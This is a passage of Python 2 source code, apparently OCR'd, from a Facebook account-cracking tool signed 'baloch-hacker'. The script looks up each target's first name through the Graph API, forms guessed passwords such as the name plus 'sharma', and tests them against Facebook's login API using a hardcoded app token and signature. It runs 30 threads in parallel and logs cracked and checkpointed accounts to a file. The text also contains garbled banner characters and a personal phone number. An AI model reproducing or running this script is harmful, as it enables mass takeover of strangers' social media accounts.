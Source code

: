 															print '\x1b[1;91mтШЮ{CP}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = (j['first_name']+'sharma')
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92mтШЮ{Hack}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;91mтШЮ{CP}\x1b[1;97m-\x1b[1;94mтЧП\x1b[1;97m-' + user + '-\x1b[1;94mтЧП\x1b[1;97m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;95mтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд\033[1;96mB4Baloch\033[1;95mтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд"
	print "  \033[1;91m┬л---тАвтЧИтАв---Developed By baloch-hacker--тАвтЧИтАв---┬╗" #Dev:baloch_hacker
	print '\033[1;91mProcess Has Been Completed\033[1;92m....'
	print"\033[1;91mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print """
             тЦТтЦТтЦТтЦИтЦИтЦИтЦТтЦИтЦИтЦИтЦТтЦИтЦИтЦИтЦТтЦИтЦИтЦИтЦТтЦТ
             тЦТтЦТтЦТтЦТтЦТтЦИтЦТтЦИтЦТтЦИтЦТтЦТтЦТтЦИтЦТтЦИтЦТтЦИтЦТтЦТ
             тЦТтЦТтЦТтЦИтЦИтЦИтЦТтЦИтЦТтЦИтЦТтЦИтЦИтЦИтЦТтЦИтЦТтЦИтЦТтЦТ
             тЦТтЦТтЦТтЦИтЦТтЦТтЦТтЦИтЦТтЦИтЦТтЦИтЦТтЦТтЦТтЦИтЦТтЦИтЦТтЦТ
             тЦТтЦТтЦТтЦИтЦИтЦИтЦТтЦИтЦИтЦИтЦТтЦИтЦИтЦИтЦТтЦИтЦИтЦИтЦТтЦТ
тЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд.
: \033[1;93m.balochhacker  B4Baloch.... \033[1;93m :
тЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтАвтЧИтАвтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧдтЧетЧд.' 
                whatsapp No. 
               +916005279895
	
	raw_input("\n\033[1;93m[\033[1;91mBack\033[1;93m]")
	menu()

if __name__ == '__main__':
	login()
